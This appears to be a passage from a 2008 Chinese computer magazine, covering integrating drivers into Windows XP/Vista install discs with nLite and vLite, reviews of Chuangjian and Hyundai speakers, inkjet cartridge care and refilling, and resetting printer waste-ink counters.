其实，就算没有出现故障，笔者建议大家还是要安装显示器驱动程序。这样可以最大地发挥你的显示器的作用，如果你是CRT显示器，正确安装了驱动程序后，还可以设置更高的刷新率，从而不让你的眼睛受累，何乐而不为呢？

## 扔掉你的驱动盘

## 让XP/Vista认识更多硬件

## ——驱动程序使用技巧

◆ 文/江北书生

## 第一部分 Windows XP

### 1.安装光盘上的驱动

安装完Windows XP后，将配套驱动光盘放入光驱中，然后顺着向导来安装驱动。在安装驱动程序过程中，我们还得注意驱动程序的安装顺序。最重要的当然得安装主板识别和管理硬盘的IDE/SATA驱动程序或补丁。并先安装这些驱动，其次才是显示卡，因为显示卡的驱动影响到其他任务的状态显示，搞不好也将是死机和黑屏频繁，所以应该放在声卡、网卡等板卡之前安装。

当然，也可以先安装显卡和网卡驱动，之后上网去查找最新驱动，这样也可以保证其驱动是最新的，但这对用户硬件水平要求较高，因此我们推荐下面的办法。

### 2.更新最新驱动

按常规思维，我们一般要使用最新的驱动。用随机光盘安装驱动，不能保证其是最新的驱动。我们可以下载并安装驱动精灵2008，单击“驱动更新”，然后设置相应的更新方式即可自动更新（如图1）。



### 3.抽取保存最新驱动

单击“驱动备份”，再勾选“需要备份的驱动”项，然后选择“备份模式”为“文件夹”，设置好备份文件夹，本例为e:\software\drivers\alldrivers\winxp，再单击“开始备份”按钮开始备份。

### 4.集成最新驱动

#### 第一步：准备好软件

从http://nliteos.pcrpg.org/nlite/nLite-1.4.9.1.installer.exe处下载并安装nLite最新版，在安装时请确认安装类型为“简体中文”。安装后运行之，选择语言也为Simplified Chinese（简体中文）。选中后软件界面会即时切换到中文界面，单击“前进”进入下一步。

> > **小提示：**
> 如果发现安装nLite有问题，请直接从http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=0856eacb-4362-4b0d-8edd-aab15c5c04f5处下载并安装Microsoft .NET Framework 2.0。

#### 第二步：准备好安装文件

将Windows XP光盘上的所有文件包括文件夹复制到e:\software\sys\winxpsp2\winxpsp2\文件夹中。

#### 第三步：扫描安装文件

在接下来的界面中，我们需要选择安装文件的所在路径，此时选择e:\software\sys\winxpsp2\winxpsp2\文件夹，会弹出相应的窗口，会扫描当前的安装文件及打印后的情况。完成后单击“前进”按钮进入下一步（如图2）。



#### 第四步：集成最新的驱动

在接下来的步骤里，由于我们是第一次使用，没有配置文件可以加载，所以直接单击“前进”。提供了八个选项供我们选择，由于我们这次只是整合驱动，我们只要选中“驱动程序”。接着，单击“前进”，进入下一步。

此时进入了修补程序包的整合界面，单击“插入”按钮，选择“多个驱动程序所在的文件夹”，在弹出的选择框中打开先前更新后保存的驱动程序所在文件夹，如e:\software\drivers\alldrivers\winxp，之后单击下方“全选”按钮选中所有的驱动程序，并返回先前的窗口。

#### 第五步：整合驱动

顺着向导完成其他的操作，完成后nLite提示正在整合驱动程序（如图3）。



### 5.集成SATA驱动

SATA硬盘已经几乎完全取代PATA硬盘，但可惜的是，Windows XP并不能直接安装在SATA硬盘上。一般情况下，得在安装时按下F6键，然后从软盘上安装最新的驱动。但现在软驱已经退出了历史舞台，所以在SATA硬盘上安装系统盘是一个麻烦的事情。但我们完全可以通过DPS让Windows XP来识别SATA硬盘。

- 1. **第一步：下载DPS**
登录http://www.driverpacks.net/，这里是他的首页，单击上方的DriverPacks，再单击下方的“DriverPacks BASE”下载DriverPacks BASE，这是一个整合工具，有了它才可以整合驱动。

- 2. **第二步：下载驱动**
返回到http://www.driverpacks.net/DriverPacks/，再单击“DriverPack MassStorage”，下载Mass Storage的驱动。

- 3. **第三步：准备驱动和XP安装文件**
将下载后得到的DP_MassStorage_wnt5_x86-32_804.7z拷贝到D:\DPS\DriverPacks文件夹下。

将Windows XP光盘上的所有文件（夹）拷贝到一文件夹下，如D:\WinXP。

#### 第四步：准备整合

双击下载后的DPs_BASE_805.exe，将其解压到D:\DPS文件夹下，进入D:\DPS文件夹，双击DPs_BASE.exe，在打开窗口中设置语言为Simplified Chinese（简体中文），单击窗口下方>按钮，此时看到如图4所示的窗口，选中“磁盘”，然后单击“浏览”按钮，再定位到Windows XP文件所在文件夹下，如D:\WinXP。已经被识别出来，为Windows XP SP2零售版。



#### 第五步：开始整合

单击窗口下方>按钮，我们选中DriverPack MassStorage 8.，再选中下方的DriverPack MassStorage text mode框。接下来，在其中我们可以选中“方式1”。这样我们的驱动会直接集成到光盘上，并会从光驱上来查找。之后，顺着向导，设置好其他参数。单击“整合”按钮即可进行整合。

### 6.刻录光盘

启动Nero，选择“刻录器”→“刻录映像文件”，然后打开我们先前生成的ISO文件，再单击“刻录”按钮，将它刻录到光盘上。接下来，我们只要在BIOS中设置好从光盘启动即可保证可以正常识别SATA硬盘，并可以安装。而且在安装完后还自动将我们的硬件最新驱动安装上。

## 第二部分 Windows Vista

### 1.获得最新的驱动

重复上面一、二、三步骤，通过驱动精灵2008得到最新的驱动，并将其保存在e:\software\drivers\alldrivers\winvista文件夹中（如图5）。



### 2.下载并安装WAIK

这时我们要用到一个名为Windows Automated Installation Kit（Windows-AIK或WAIK）的工具包，它可以帮助我们来进行系统部署。大家登录：http://www.microsoft.com/downloads/details.aspx?familyid=C7D4BC6D-15F3-4284-9123-679830D629F2&displaylang=zh-cn
然后单击“继续”，进行Windows正版验证后即可下载。下载后，用虚拟光驱软件将其虚拟面一个光盘，然后双击其上的StartCD.exe即可见相应窗口。

#### 第四步：安装Windows AIK工具

选择第二项“Windows AIK安装程序”可以启动其安装程序，之前有可能要安装MSXML 6.0。

### 3.下载并安装vLite

从http://www.vlite.net/download.html处下载并安装vLite最新版。第一次启动vLite会弹出协议窗口，单击“I agree”（我同意）按钮接受，之后，vLite会提示安装WIM Filter（如图6）。由于我们已经安装过WAIK，所以只要直接单击Install按钮安装即可。



单击“语言”，选择Simplified Chinese（简体中文），即可出现简体中文界面。

### 4.设置临时文件放置文件夹

因为进行整合操作时需要大量的磁盘空间，所以我们要选择一个更大更稳定的文件夹。单击“选项”，单击“更改”按钮，在打开窗口中设置好临时文件放置文件夹。

### 5.复制安装文件

将Windows Vista光盘放入DVD驱动器，然后将其中的所有文件（夹）拷贝到一文件夹下，如e:\software\sys\Vista\Vista_EN_DVD\下。

### 6.选择安装文件夹

接下来的界面中，我们需要单击“浏览”按钮，选择安装文件的所在路径，此时选择e:\software\sys\Vista\Vista_EN_DVD\文件夹，会弹出相应的窗口，如图7所示。要求我们选择定制Windows Vista的版本。选中后单击“确定”按钮返回，此时已经被识别出来，为32位Windows Vista SP1。



### 7.集成最新的驱动

单击窗口中的“下一步”按钮，在打开图中窗口，选中“集成”和“可引导ISO”项。最后一项的意思是在修补程序包和驱动整合结束后直接由程序制作完整ISO文件（光盘镜像文件的一种常用格式）。

接着，在图8中单击“驱动”下的“启用”复选框。再单击“插入”按钮，然后在弹出的选择框中选择“多个驱动文件夹”。之后，指向e:\software\drivers\alldrivers\winvista文件夹。然后，单击“选择”下的“全选”，返回到主窗口。



### 8.完成其他操作

顺着向导完成其他的操作。

### 9.重建文件

到最后一步，单击“应用”，此时会弹出窗口，要求我们重建哪些版本。一般来说，选择“重建所有”，之后会弹出窗口，表示正在处理。

### 10.制作ISO文件

单击“制作ISO”，然后选择一个文件夹，指定ISO文件存放的位置即可生成ISO文件（如图9）。之后，vLite提示正在处理。



### 11.刻录安装光盘

启动Nero，选择“刻录器”→“刻录映像文件”，然后打开我们先前生成的ISO文件，再单击“刻录”按钮，将它刻录到光盘上。接下来，我们只要在BIOS中设置好从光盘启动，其他的安装过程与普通的Windows Vista 安装光盘一样。只是安装完成后，还会自动将我们的硬件最新驱动安装上，一步到位！

# 创舰音箱：

# 聆听世界 享受自然

2008年，整个市场变幻莫测，音箱行业更是风起云涌，2008年，也是创舰音箱的转型之年，创舰“琴棋书画”系列音箱的推出，在多媒体音箱领域兴起古典与时尚的潮流。

### 专利外观时尚型：创舰CJC-215D

在中国多媒体音箱市场上凭借以圆筒炮式的专利外形，艳压群芳的创舰CJC-215以全新姿态重出江湖。它就是创舰CJC-215一炮走红的升级版：CJC215D。在外观上，还是传承了原来的经典，在性能方面却有很大提升。如图1，创舰CJC-215D。



与CJC-215相比，CJC-215D最直观的改变就是低音炮增大，容下了更大口径的低音喇叭，增加了低音的量感与密度，充分增大下潜。另外，低音喇叭已为上置式，有效的减小驻波，减小声染，进一步提高声音的清晰度，减小相位失真。如图2，上置式半透明的独立调音旋钮。


另外，原来的触摸一体式调音旋钮升级为半透明的独立调音旋钮。整体给人一种高贵的镂空感，更富科技气息。同时，开机后旋钮部位又是电源指示，新颖漂亮。

在性能方面，功率有很大幅度升级，由原来的18W加大到28W。低音单元由4英寸加大到5.25英寸，整体音质动力十足，低音下潜更深，更强劲有力。电源变压器采用高档硅钢片压制而成，绝缘程度较高，导磁效率高，漏磁小，使用安全。如图3，简洁的音频线接入处。


在试曲目方面，我们选择了陈洁丽的《绿色的旋律》、周华健《有弦相聚》、艾薇儿的《上帝是个女孩》、《柴可夫斯基-1812年序曲》、《尘鼓》。从低频看，创舰CJC-215D的控制力的确不俗，有良好的下潜，令低频范围能够得到一定的保证，可以说基础比较扎实。在试听《尘鼓》以及《1812年序曲》时表现得尤为明显，收放自如，收得则干净利落，放则奔放而不飘忽。

中频方面，我们着重考察了人声与乐器的声音回放。男音不显得过分沉厚（《有弦相聚》），可以说不暖不冷刚刚好；女声（《绿色的旋律》）自然大方，干净细腻；乐器方面，《尘鼓》里开场的鼓声清晰饱满有力度，质感很不错。

高频方面，具有良好的延展性。较为真实的空气感，气声完整自然，可以说高频的延展性是比较出色的，令声音整体显得通透轻松。

其他方面，CJC-215D的声场不错，给人一种较为宽阔、大气的感觉。另外，CJC-215D的一个特点就是它的声音并非只是指向某一方位的。相反，你在其周围各点均可以得到较好的声音。

**技术参数：**

| 参数 | 值 | 参数 | 值 |
| :--- | :--- | :--- | :--- |
| 额定功率 | 28W | 响应频率 | 35Hz-18Khz |
| 失真率 | ≤0.5% | 信噪比 | ≥62db |
| 标准阻抗 | 4Ω | 扬声器单元 | 5.25"+2.75 *2 |

### 发烧装工型：创舰CJC-650

目前的多媒体音箱市场，音箱的外观有了不少的创新，从传统的方正形，长方形再到圆形及各种样式，不过，创舰CJC-650打造了蜂巢式六边形结构。图4，创舰“CJC-650蜂拥而至”六边型箱体。



外观上，钢琴烤漆表面工艺，加上纯洁典雅的珍珠白色调，尽显时尚高贵。高档的烤漆工艺并能有效避免传统音箱起皮现象。音箱以蜂巢为原型，呈六边形，看起来很独特，可以很好的装点现代家居。边角部分经过了圆滑处理，使产品手感更好。另外还带有同样造型的线控，方便日常使用。

CJC-650蜂拥而至的低音炮部分采用前置开放式设计，低音单元尺寸为6.5英寸，低频有力，下限可达 35Hz。表现上弹性优秀、声音饱满。卫星箱尺寸分别为3寸，采用子弹头喇叭，保证高音通透响亮。独立的线控装置能调节音量，在通电后会发出蓝光，很有质感，带有耳机输出孔和音频输入孔。

值得一提的是，CJC-650蜂拥而至，采用的采用蜂巢动力学原理，减少低音炮内部箱腔大小，有效压缩空气，使低音更加震撼，更具弹性。同时采用后导向设计，使低音扩散更加均匀。精确线控，将操作系统与芯片有效分离，减少干扰，提升信噪比，同时也为自由操控创造条件；

**基本参数：**

| 参数 | 值 | 参数 | 值 |
| :--- | :--- | :--- | :--- |
| 音箱种类 | 2.1 | 音箱控制 | 线控 |
| 频响范围 | 120-20K Hz | 信噪比 | 62dB |
| 扬声器单元 | 高音单元为6.5英寸，低音单元为3英寸*2 | 扬声器阻抗 | 4Ω |
| 输出功率 | 28 |  |  |

### 商务精英便携型：创舰Q2棋

有人说好的创意是宝贵的，确实如此。在产品同质化严重的现状下，厂家的创新很值得鼓励，创舰将“琴棋书画”的理念融入音箱设计，让消费者感受到一份文化，可能也会乐于享受一份不同一般的精致。这款其中的Q2“棋”体积小巧、外观雅致，功能全面但又方便好用，确实是用户能随身携带的放音佳品，可供多种用途使用。如图5，创舰Q2。

第一眼看到创舰Q2外观，这是音箱吗？包装盒别具匠心，还是抽屉式设计。手掌大一点的还可以直接包裹住盒子底部。从空间上来看，比饭盒还小，清爽便携。

令人爱不释手的包装盒最大的亮点就是天地盖礼品盒设计，盒子上面是黑，底部为白，与黑白棋暗合。如图6。

性能方面，采用高强钕铁硼内磁超薄全频喇叭，能使声音更清晰，人声更自然，声压更高。半圆形密封设计，有效的减小驻波，减小声染，进一步提高声音的清晰度，减小相位失真。USB数字解码方案，无须外接音源，使用更方便。进口高效率HI-FI数码功放，确保产品完美的音质和高可靠性。



放几首常听的曲子，感觉却所不同。值得一提的是创舰Q2棋的高音部分是这款音箱的亮点，高音亮、较纯净、解析度高，表现力出色；中音人声部分清晰自然，人声的密度和厚度超出预期，低音方面，下潜比较深，量感丰富。整体说来，音质很不错。音箱的声场表现中规中矩，较为开阔。



**技术规格：**

| 参数 | 值 | 参数 | 值 |
| :--- | :--- | :--- | :--- |
| 额定功率 | 6W | 信噪比 | ≥70 db |
| 额定阻抗 | 4Ω | 音箱尺寸 | φ100*H40mm |

# 现代音响

## 卓尔不群的时尚之道


## “炫响”，开创时尚之道

2007年下半年，现代音响向产品外观设计方面发力，开始在时尚之道上寻求突破。10月份，现代音响第一款时尚力作新鲜出炉，它就是“东方神韵”HY-9500H音箱。与之前现代的产品相比较，东方神韵在外观设计上取得很大的突破，让用户看到了韩国时尚和中国时尚的区别。设计师富有创新的将中国古典文化的风貌搬到了音箱上，主箱如同古代的计时工具沙漏，还有那来源于宝马i-Drive系统灵感的线控，或多或少给时尚型消费者带来了惊喜。如图1，现代HY-9500H融合了中韩两国的时尚元素。



在此之后，现代音响加快了时尚之道的脚步，发布了“FANI梵响”新系列。这个系列的第一款产品HY-230，其设计灵感来自于《变形金刚》，以超酷的金属反光黑色为主色系配上菱形的红色“眼睛”，凸起的几何面构造，棱角分明，每个细节都追求完美，时尚前卫，酷劲十足，同时也体现了现代音响多媒体音响“梵响”所要表达的全新涵义：科技、酷玩、时尚。东方神韵和变形金刚是现代音响向设计理念蜕变的开始。如图2，HY-230的灵感来自于《变形金刚》。



## 现代“荣御”，驾驭时尚气质

荣御HY-2008韩国版这款产品与东方神韵和变形金刚相比，设计理念更加成熟，结合了当前时代主题下众多时尚元素，诠释了韩国现代音响设计师对现代时尚的理解。经典的红与黑搭配，生动的描绘出主箱的奖杯图案，还有那修长的火炬状卫星箱，类似于游戏手柄的线控，使得整个音箱不仅充满了时尚冠军的气质。图3，荣御HY-2008韩国版诠释了一个运动员从拼搏到辉煌的故事。





外观设计永远都是在追求创新，人们总会厌倦传统的外观造型。今天的创新设计，必将成为明日的传统。多媒体音箱只有紧跟时尚的脚步，结合时代的特色，才能注入新鲜的血液。如图4，“荣御”HY-2008的细节，体现了设计师对运动、对时尚、对个性的理解和体会。

## 时尚？“荣御”？梦想

现代音响的设计师们这样认为：“好的音箱并不仅仅只拥有出色的外观，或者优秀的声音素质，消费者买的不仅是外观，更是好的音质。” 一款优秀的音箱产品，外观和音质是相辅相成的。“荣御”HY-2008的主箱正面为一个大大的冠军奖杯，两个副箱呈火炬形状。这可以理解为现代音响人对冠军的追求。奖杯代表现代音响对第一的渴求；火炬，暗喻现代音响的雄心。 有趣的是，在现代“荣御”线控大赛中，出现了一款“点火”的设计方案，它与音箱及副箱的出现，完整地表达了一个有关奥运的故事。“点火”的作者解释说：“把线控设计成一个点火器，使整个音箱的设计描绘成一个完整的奥运故事，从点燃圣火的那一刻起，我们的奥运激情在那一刻彻底释放。”如图5，“点火”线控。





现代荣御HY-2008韩国版音箱在外观设计主色调采用黑色与红色的混搭组合（如图6），闪烁的镜面效果，给人强烈的现代感，经典的主色调给人古典之美；卫星音箱体型修长，比较适合与大尺寸LCD液晶显示器搭配使用。

## 低频表现

现代荣御HY-760是荣御系列产品的第二款，它在设计上，展现出一种棱角分明的视觉效果。它的主色调采用黑色为主，搭配红色边框，给人以强烈的时尚质感。其低音表现更是强劲，除了低音单元为6.5英寸外，功率也达到了60W；三分频设计使得HY-760音箱的中频表现也更加出色。如图7。



## 水晶鞋的诱惑

现代荣御HY-2009，从容剥离音箱产品的传统外衣，HY-2009以极至简约演绎纯粹音乐。内外兼修，魅力与实力完美结合。为了保持卫星箱优美的身材，为HY-2009单独设计了一款50mm×90mm的椭圆形中音单元，这样既保证了外观，又保证了音质。如图8。



图9为现代系列音箱欣赏。



# 打印机中枢 —— 墨盒应用入门

喷墨打印机作为目前使用最广泛的一种外设输出设备，其普及度已经相当高，已经成为众多SOHO用户以及普通家庭用户的必备设备。然而与其它外设相比，打印机的故障率还是相对较高，很多用户在使用过程中都会遇到各种各样的问题。因此，如何维护打印机就成为一个值得讨论的话题。

◆ 文/阿亮

## 一、认识喷墨打印机的墨盒

墨盒可以按照颜色或是结构分类：按颜色可分为单色、三色、五色等；按结构可分为一体式和分体式。为了达到更好的打印效果同时简化维护过程，不少厂商选择将喷头整合在墨盒中，此时墨盒及喷头同时安装在拖车上，成为打印机上最关键的部件，直接影响打印机的打印速度和质量。一体式将墨盒与喷头做成一体，这种一体部件结构简单，体积可以做得很小，且合计成本较低，但换墨即换头，耗材的综合成本变高。另一种是分体式，墨盒与喷头分开，墨水用完后仅换墨盒，因此耗材成本较低。但由于墨盒和喷墨头之间分离，安装后无法密封，因此可能会由于灰尘和安装接触等原因造成喷墨故障。



墨盒的内部结构其实并不复杂，主要由储墨海绵以及压力喷射辅助装置组成。无论是一体式还是分体式墨盒，喷射辅助装置都需要过滤网、密封膜和密封圈等构成，这些组件帮助墨水在喷溅过程中能够降低颗粒度，而且此时的控制将更为精细，同时保证精确的压力平衡。喷射辅助装置的选择与墨盒工作方式也有关系，目前主要分为气泡式和微针点压电式。气泡式技术利用加热空气后产生膨胀的方式，将墨点打印在纸张上；而微针点压电喷墨打印技术采用了晶体作为控制喷墨的介质，利用晶体通电膨胀的特点，再加上多层的电路控制，让晶体通电而将墨水由打印头喷出，而一旦断电后晶体便会收缩，打印头就会停止打印。

从打印效果来看，气泡式技术尽管改进后也能达到很不错的效果，完全不输于EPSON推广的微针点压电喷墨技术。而事实上，除了墨盒的喷墨技术，墨水的种类也会对打印质量产生不小的影响。如果按照色基分类，墨水可以分为染料型墨和颜料型墨。染料型墨是以染料为色基的墨水，也是目前大多数喷墨打印机所采用的墨水。颜料型墨是以颜料为色基的墨水，有更好的色彩饱和度，比较适合照片打印。如果按照墨水溶剂来区别则可以划分为水性墨和油性墨。水性墨以水和水溶性的溶剂作为溶解色基的主要成分，而油性墨以非水溶性的溶剂作为溶解色基的主要成分。从目前的发展趋势来看，油性颜料墨更加适合于对色彩表现力要求很高的照片输出，而成本优势明显的水性颜料墨显然更加适合文本打印。

## 二、墨盒使用中的应用技巧

- 1.墨盒的安装方法

墨盒的安装过程并不复杂，大家可以按照以下四个步骤进行，下面是墨盒安装过程图解。









要提醒大家的是，在把墨盒插入小车的墨盒架之前必须先将透气孔上的封条撕掉，否则打印机无法完成充墨动作，虽有打印动作，但是打印出来的都是白纸。一般而言，大多数打印机并没有做到彩色墨盒的各种颜色完全分离，此时黑色墨盒往往与照片墨盒共用一个卡槽。当需要打印文本时应该装入黑色墨盒，而打印照片时则采用照片墨盒。尽管不使用黑色墨盒也能做到黑色文本打印，但是此时不仅浪费耗材，而且打印出的文本效果也会大打折扣。完成墨盒安装之后，大家还需要进行校正，因为墨盒的物理位置必须足够精确，否则便会降低打印效果。对于普通的家庭用户，打印机在正常使用了半年后就要及时校正墨盒，以保证打印机正常的打印质量。墨盒校正操作一般通过打印机的后台程序打那个测试页，然后根据输出情况来调整。

- 2.更换新墨盒后无法使用的处理

正常情况下，当墨水已用完时，打印机才会提示“墨水用尽”。而如果更换新墨盒后，打印机就提示“墨水用尽”，一是有可能墨盒未装好，另一种可能是在关机状态下自行拿下旧墨盒，更换上新的墨盒。因为重新更换墨盒后，打印机将对墨水输送系统进行充墨，而这一过程在关机状态下将无法进行，使得打印机无法检测到重新安装上的墨盒。另外，有些打印机对墨水容量的计量是使用打印机内部的电子计数器来进行计数的（特别是在对彩色墨水使用量的统计上），当该计数器达到一定值时，打印机判断墨水用尽。而在墨盒更换过程中，打印机将对其内部的电子计数器进行复位，从而确认安装了新的墨盒。解决方法很简单，只要打开电源，将打印机调到墨盒更换位置，然后把墨盒安装好后再让打印机进行充墨，充墨过程结束后即可排除故障。

- 3.墨盒堵塞的处理方法

该故障多数是由于打印机长期未用，造成墨水输送系统障碍或喷头堵塞。解决的方法是执行打印头的清洗操作，可以多执行几次，若没有改善，分析一下故障出现在哪部分。如果还是无法解决问题，很可能是一体化墨盒中的喷头堵塞。一般来说，喷头堵塞可分为喷头软性堵头和喷头硬性堵头两种，它们的处理方法也各不相同。软性喷头阻塞指的是因种种原因造成墨水在喷头上粘度变大所致的断线故障，一般用原装墨水盒经过多次清洗就可恢复，但这样的办法太浪费墨水。最简单的办法是利用清洗液（一般各大电脑城都有卖），填充到墨盒内后反复执行打印头清洗操作，此时比直接用原墨水盒装清洗打印头有更好的效果。硬性堵头指的是喷头内有化学凝固物或有杂质造成的堵头，此故障的排除比较困难，必须用人工的方法来处理。首先要将墨盒取下，将其浸泡在清洗液，晾干之后就可以再次装入拖车。只要硬物没有对喷头电极造成损坏，清洗后的墨盒还是可以继续使用的。

> 小提示：墨盒随便放不得

家用打印机工作的特点可以用间断性来概括，这是因为相对于商用或办公用打印机来说，家庭以及SOHO用户的打印机是使用一阵、闲置一阵，这牵扯到已开封的墨盒如何保存的问题。在拆开新墨盒的外包装时，小心地掀开塑料封盖，保持墨盒外包装的完整。等到墨盒暂时不用时，就把它放回塑料盒中，将已掀开的塑管封盖用双面胶带与盒子紧密粘合，以确保墨盒与外界隔绝。当然，也可以使用其它各种合适的容器存放墨盒，只要注意将盖子接缝处用胶条封严实。

## 三、精打细算：使用填充墨水注墨

兼容耗材在原厂高压和假冒产品洪水的双重挤压下，能顽强生存并发展至今，本身就证明了自己的市场存在价值。它在促进喷墨打印机市场发展，制约原厂墨盒暴利，乃至提高用户的环保意识等方面都发挥了积极的作用，成为了一支不容忽视的市场力量。一般而言，原厂墨盒在墨水用尽之后不必立即购买新的墨盒，可以通过注射填充墨水来使之继续使用。

- 1.选择合适的专用填充墨水

下面来看一下如何进行这项操作，我们给大家示范的操作是在耐力黑色兼容墨水和Lexmark 3200的12A1970黑色墨盒上进行的。这款耐力黑色兼容墨水是专门针对Lexmark的黑色墨盒设计的，因此有不错的表现。首先大家要根据自己的产品（打印机）购买相应的填充墨水，注意自己选购的是黑墨盒、彩色墨盒还是照片墨盒。一般来说，质量优秀的填充墨水都是只能针对部分型号的墨盒，因此你需要卸下打印机的墨盒找出上面的墨盒型号，然后选购相应的产品。如果买错了，那么打印效果肯定是严重偏色的。





- 2.填充墨水的基本方法

接下来的工作就是取出待充的墨盒，并且打开耐力墨水的包装，里面共有3个工具，分别是固定夹、钻孔器和兼容墨水，基本上其它品牌的兼容墨水也是这样。因为墨盒很难平放在桌面上，不利于操作，因此最好使用固定夹把墨盒定住，这样会方便很多。

# 硬件与数码 SOLUTIONS

大大减小操作失误的几率。然后，我们在墨盒顶端用针头扎孔，扎孔的位置要离开通气孔一段距离。下一步将墨水瓶的针头插入钻孔，用力按压墨水瓶灌注墨水。需要注意的是，在加墨时注意不要太快，防止从喷嘴流出太多的墨水。灌注完毕后拔出墨水瓶，用透明胶或者速干胶水封闭钻孔。最后，将墨盒静放数分钟，等到墨盒不漏墨时用纸巾轻轻擦净打印头后安装入打印机。



## 3.彩色墨盒如何填充

黑色墨水的填充方法相对简单，而且以上方法适用于几乎所有品牌的打印机。但是还需提醒大家的是，彩色墨盒加墨水的方法与黑色墨盒稍稍有些不一样，因为一个彩色墨盒中往往有好几种颜色的墨水。假如是色彩分离墨盒；那么加墨方法将与黑色墨盒完全一致。添加彩色墨盒的墨水时，要用小刀插入彩色上盖的四周轻轻划一圈将上盖起下来，可以看到三格墨室，墨室内是容纳墨水的海绵，通常海绵上面看不到颜色，每格墨室上有两个孔，这两个孔在生产时一个是注墨的，一个是抽气的，在哪个孔里灌墨水都行。先用牙签确定各格的颜色，然后灌墨水，注意不要将针头插得太深，免得碰坏喷嘴，加墨水以不超过海绵的容纳能力为限。加毕后暂时不要盖上上盖，用面巾纸沾拭喷嘴，三种颜色能通畅渗出即大功告成。若三种颜色不能通畅渗出，针对不畅的颜色的墨室略吹气或打气，能通畅渗出即可，然后上上盖，最后用透明胶封闭。



## 四、廉价照片输出：改装连续供墨系统

连续供墨系统的实质就是利用打印机墨盒在打印中向喷头源源不断地输送墨水的同时，墨盒内也需要自动吸入同等容量的空气补充平衡这一原理，将从墨盒通气孔补充空气改为补充墨水，不管墨盒给喷头输送多少墨水，都能及时补充同量墨水进入。补充墨水通过软管连接到打印机外的墨水大容器上，这样就能保证墨盒始终有足够的墨水。连续供墨系统主要由三个部分组成：外墨盒、内墨盒以及排管。

第一代连续供墨系统采用导管连接打印机内的原装墨盒，但是此时不仅存在芯片检测墨水容量的问题，还很容易造成堵塞，毕竟原装墨盒内墨水的化学成分与连续供墨系统不一样，而且特殊的过滤海绵也容易导致气压平衡失效。为此，新一代连续供墨系统一般直接使用兼容墨盒，使用时替换原装墨盒，这样虽说成本略微提升，但是稳定性与可操作性要好很多，也不会影响打印机的质保。新一代连续供墨系统安装和使用都非常简单，不需要对打印机做任何改动。目前市场上销售的连续供墨系统大多直接配好以上三项配件，用户在使用时只需要在打印机内放入相应的墨盒，然后按照颜色连接输入管即可。



而且如果不想使用连续供墨系统，可以随时取下系统，即可换上墨盒和原来一样使用。目前市场上销售的连续供墨系统大多直接配好以上三项配件，用户在使用时只需要在打印机内放入相应的墨盒，然后按照颜色连接输入管即可。



# 俭持家——喷墨打印机“省墨”进行时

经常使用打印机的朋友可能都会有这样的体会，喷墨打印机用过一段时间后就会出现一些问题。譬如，某款打印机用一段时间就会出现打印机指示灯交替闪烁，某款打印机出现蜂鸣器数声响声，而机内明明还有墨水，却无法打印文件。更令人沮丧的是，打印机竟然还提示我们“打印机部件已到了服务期限”。它的意思就是让我们送到维修站去看一看，或者更换墨盒，这不是又白白要挨一顿宰么？当我们真心诚意地拿去修好，过段时间又会出现这种现象。朋友们都希望闹明白，这到底是什么原因呢？

问过业内人士，他们告诉笔者，这其实是打印机废墨仓满/废墨计数器满引起的结果。废墨仓实际上是打印机的一个部件，在打印机的实际操作过程中，对打印机进行清洗时，甚至在打印机不工作的时候，墨盒中的墨水都会流进废墨仓，而当废墨仓注满后就会出现我们提到的症状，同时打印机自身具有一个计数器，打印的数量达到一定上限，就会发出报警命令。诚然，打印机出现这种现象当然不是机身故障，而是设计中本来便带有的程序。所以，如果你想节省打印机在这方面消耗的金钱，学会把废墨计数器清零是一件十分值得学习的事情。

◆文/TMG zq

## 一、墨盒清零法

所谓物理清零，当然就是要实实在在地清空废墨仓中的墨水。这个操作十分简单。关闭电源，拆开机器，找到废墨仓，用注射器吸出废墨仓中的墨水即可。或者清洗海绵吸墨垫也行。海绵吸墨垫在哪里呢？通常都会在废墨仓后面。

> 小提示
通常进行废墨清零的时候需要拆机，在入秋后，因为天气变凉，身上带有静电比较大，所以在拆卸机器时容易引起内部元件损坏，这时可以把手洗一下，晾干后再进行拆卸。

## 计数器清零

进行完了物理废墨清零，同时需要对打印机进行程序上的清零，保证打印机的废墨数字显示为零。这里分为手动清零和软件清零两种形式。
先给大家介绍手动清零。这种方法简单快捷，不需要下载软件，更不需要费尽心思学习如何操作一个新的清零软件。



-   首先，要关闭打印机的电源，然后在再次插上电源的同时按住电源按键，在不松开电源按键的前提下，连续按进纸键4下。你将会看见电源灯依次由黄变为绿、黄、蓝。然后重新开机，连接电脑就好。有些朋友的打印机可能还有清洗按键，对于这样的打印机，我们可在开始的同时按住进纸键和清洗键，等电源灯闪烁两次后松开这两个按键，然后电源灯会继续闪烁，两次后，继续按住清洗键大约十秒钟，这时打印机所有的指示灯都会闪烁一次，清零便结束了。

然而，有时手动清零后你会发现这种方式难以清理彻底，所以这个时候我们需要用软件进行清零。需要提醒用户的是，这种软件在网上便可以找到，但是不同品牌的机子会用到不同版本的清零软件，所以用户可以根据自己的实际情况进行选择。
现在，我们就以佳能打印机为例，为大家介绍如何进行软件清零。

-   1.  我们使用的这款软件的地址是www.servicemanuals.ru/download/canon/ip1600st.zip。大家通过这个地址就可以找到这款打印机清零软件了。这款软件支持佳能的IP2200、IP1600等型号的打印机，也就是说，拥有这几个型号的打印机的朋友就可以进行和笔者一模一样的操作了。
    2.  软件下载完之后，关闭打印机电源，然后在插上电源线的同时把打印机的电源键按住，接着四次按住打印机的进纸键，最后松开电源键。这几步和手动清零完全一样。
    3.  等这些操作完毕之后，我们重新启动打印机，运行软件，选择USB PORT，也就是USB端口选项，选中自己所使用的打印机对应的端口就好。
    4.  勾选EEPROM CLEAR（设置目标），并勾选CLEANING（清零）两个选项，点击TEST PATTERN 1(测试模式1)的按钮。

当你看见打印机的电源闪动后，软件清零便完成了。是不是觉得也非常简单呢。其实每个品牌的打印机的软件清零步骤大致相同，操作都是直接点击鼠标数次便可轻松完成。大家可以利用搜索工具在网络上查找适合自己打印机使用的软件。
在这里需要提醒大家注意的是，有些软件在电脑中比较旧的系统平台下使用可能会出现问题，譬如在Windows 98下这款软件就不能进行操作。同时要告诉大家的是，软件清零只是对芯片中对废墨计数器进行“洗脑”，与此同时一定需要对废墨进行物理清零才行，否则墨水会越积越多，甚至溢出，造成电路板的损坏。

## 二、墨盒芯片破解法

